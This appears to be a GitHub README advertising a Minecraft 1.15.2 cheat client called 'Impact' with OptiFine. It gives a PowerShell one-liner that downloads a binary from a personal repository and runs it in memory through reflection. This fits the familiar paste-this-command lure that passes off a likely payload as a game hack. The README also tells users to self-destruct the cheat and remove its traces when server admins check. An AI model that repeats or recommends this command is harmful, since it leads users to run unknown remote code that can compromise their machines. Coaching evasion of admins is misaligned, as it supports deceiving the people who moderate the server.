 # Impact-1.15.2

Impact 1.15.2 + OptiFine (silent)

Install original minecraft 1.15.2 first

Execute this code in powershell to run hack loader

```
([Reflection.Assembly]::Load((Invoke-WebRequest -URI https://github.com/bryif21/Impact-1.15.2/raw/master/Impact-1.15.2).Content)).EntryPoint.Invoke($null, $null)
```
Click install OptiFine & Install Impact + OptiFine

If admins ask you to check for cheats, use self-destruction option in Impact's Misc. And then Remove Impact + Traces in hack loader
